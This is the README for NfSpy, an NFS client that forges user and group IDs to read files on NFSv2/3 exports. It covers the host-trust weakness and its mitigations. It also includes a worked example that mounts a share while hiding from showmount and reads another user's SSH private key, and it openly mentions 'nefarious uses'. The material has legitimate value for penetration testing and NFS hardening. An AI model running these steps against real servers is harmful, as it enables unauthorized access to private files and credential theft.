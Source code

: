 NfSpy - an ID-spoofing NFS client
=================================
by [Daniel Miller](mailto:bonsaiviking@gmail.com)

NfSpy is a library/program that uses the Filesystem in Userspace (FUSE)
library to automate the falsification of NFS credentials when mounting an NFS
share.

Vulnerability exploited
-----------------------

NFS before version 4 is reliant upon host trust relationships for
authentication. The NFS server trusts any client machines to authenticate users
and assign the same user IDs (UIDS) that the shared filesystem uses. This works
in NIS, NIS+, and LDAP domains, for instance, but only if you know the client
machine is not compromised, or faking its identity. This is because the only
authentication in the NFS protocol is the passing of the UID and GID (group
ID). There are a few things that can be done to enhance the security of NFS,
but many of them are incomplete solutions, and even with all three listed here,
it could still be possible to circumvent the security measures.

### Squash root

The server or the share ("export" in NFS lingo) can be configured squash_root,
meaning that any requests that come in claiming to be UID or GID 0 (root) will
be treated like the nobody user, or equivalent on the system. This does not
prevent an attacker from spoofing any other UID/GID combo, but will protect the
most sensitive info and configs on the export.

### nfs_portmon

Another setting that can be enabled is nfs_portmon, which denies requests
coming from source ports outside of the 513-1024 range. Since only root can
(usually) allocate these ports, this prevents a regular user on a trusted
machine from writing and using their own NFS client that fakes UID/GID. It does
nothing to stop a rogue host, a user with su permissions, or a root-level
compromised machine from doing the same thing.

### Export restrictions

Shares/exports can be controlled so that only certain machines can access them.
These Access Control Lists can consist of:

* IP addresses (e.g. 192.168.1.34)
* IP prefixes (e.g. @192.168.1)
* hostnames (e.g. server1.mydom.nis)
* host lists (e.g. @trusted_hosts)
* "everyone"

The best configuration would be to use a host list, since querying the nfs
daemon will just give the name of the list, not which addresses or names it
contains. Next in line would be IP addresses or hostnames, since those are more
difficult to spoof. IP prefixes and "everyone" are indications of insecurity,
since there is little or no restriction on what addresses can connect.

Using NfSpy
-----------

A list of options can be seen by running

 nfspy --help

### Example

There is an NFS server on 192.168.1.124.

 $ showmount -e 192.168.1.124
 Export list for 192.168.1.124:
 /home (everyone)

Mount up the share. Using sudo lets you bind to a privileged port, and the 
allow_other option lets any user use the filesystem. The other new option here
is "hide", which immediately "unmounts" the share on the server, but keeps the 
filehandle it got. This hides your presence from anyone using showmount -a

 $ sudo nfspy -o server=192.168.1.124:/home,hide,allow_other,ro,intr /mnt

Enjoy your newfound freedom!

 $ cd /mnt
 /mnt$ ls -l
 drwx------ 74 8888 200 4096 2011-03-03 09:55 smithj
 /mnt$ cd smithj
 /mnt/smithj$ cat .ssh/id.rsa
 -----BEGIN RSA PRIVATE KEY-----
 Proc-Type: 4,ENCRYPTED
 DEK-Info: DES-EDE3-CBC,30ADB54EE502CA1A
 <snip>

To unmount, use fusermount:

 $ sudo fusermount -u /mnt

BUGS
----

* NfSpy mounts read-only for now. The write-related methods will be
  written later.

* NfSpy is an NFSv2 client using TCP transport. As such, it will probably only
  work with NFSv3 servers which allow NFSv2 connections. NFSv2 is very old, and 
  some servers may not support it. Future releases will support NFSv3, but
  probably not NFSv4.

* NfSpy does not work with the standard lockd and statd services, which could
  cause problems when write support is added. For read-only, though, and most
  nefarious uses for which it was intended, this shouldn't be a problem.
